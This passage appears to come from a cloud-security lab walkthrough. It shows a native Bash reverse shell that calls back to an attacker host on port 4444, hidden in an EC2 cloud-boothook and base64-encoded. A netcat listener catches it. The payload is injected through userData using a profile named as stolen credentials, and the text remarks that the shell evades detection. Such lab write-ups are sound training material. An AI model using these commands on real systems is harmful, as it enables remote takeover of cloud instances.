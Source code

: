 - Another approach is to use [Bash itself to create the TCP connection](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp). The command uses [port redirections](https://unix.stackexchange.com/a/241177) and doesn't leverage *nc* or any other binary; and, because it's running raw Bash, it may stand out *way* less than a well-known command that's easy to detect based on its filename and signature. The con is that you definitely need a Unix-like system running Bash version 2.0.4 or above. In addition, it can prove challenging to pull off and debug this kind of "remote shell-fu," so tread lightly in real-world situations.

Let's try out the native Bash approach. Take care to use the AttackBox and use its public IP. We can write a Bash boot-hook with the following contents:

```
#cloud-boothook
#!/bin/bash -x
bash -i >& /dev/tcp/<AttackBoxPublicIP>/4444 0>&1
```

Remember to replace `<AttackBoxPublicIp>` with your machine's public IP address. Also note that this payload will target port 4444. If needed or desired, you can replace this with another port, but remember to use the same one for the listener.

Save it as *reverse-shell-native.txt*. Next, base64-encode the file. Since OpenSSL is available on *many* platforms, we can use that to encode its contents:

```
~$ openssl base64 -in reverse-shell-native.txt -out reverse-shell-native.enc
```

In addition, go ahead and start the listener in the AttackBox shell:

```
~$ nc -lvp 4444
```

Now, we need to upload the contents to one of the instances. From trial-and-error, I can confirm that a rever shell connection will fail if coming from the *SecretDataInstance*. There's lots of reasons why reverse shells might fail&mdash;for example, firewall rules or EDR software&mdash;but you should never make assumptions. If this had worked, we would have circumvented the Application instance altogether.

Instead, we can defer to the attack workflow provided in the lab briefing: setting up the reverse shell from the *ApplicationInstance*, and from there, using a password-based *ssh* to the *SecretDataInstance*. 

First, revert the original *userData* on the secret instance. Ensure that the AttackBox is running the Netcat listener. Then, stop the *ApplicationInstance*, update the *userData* attribute with the same ASCII-encoded reverse shell payload, and start the instance again, using the *ApplicationInstance* ID. 

```
~$ aws ec2 start-instances \
    --instance-id i-... \
    --profile ec2-stolen
    # Wait...

~$ aws ec2 modify-instance-attribute \
    --profile ec2-stolen \
    --instance-id i-... \
    --attribute userData \
    --value file://reverse-shell-native.enc
    # Note: If successful, nothing will print.

~$ aws ec2 start-instances \
    --instance-id i-... \
    --profile ec2-stolen
    # Wait a little longer...
```
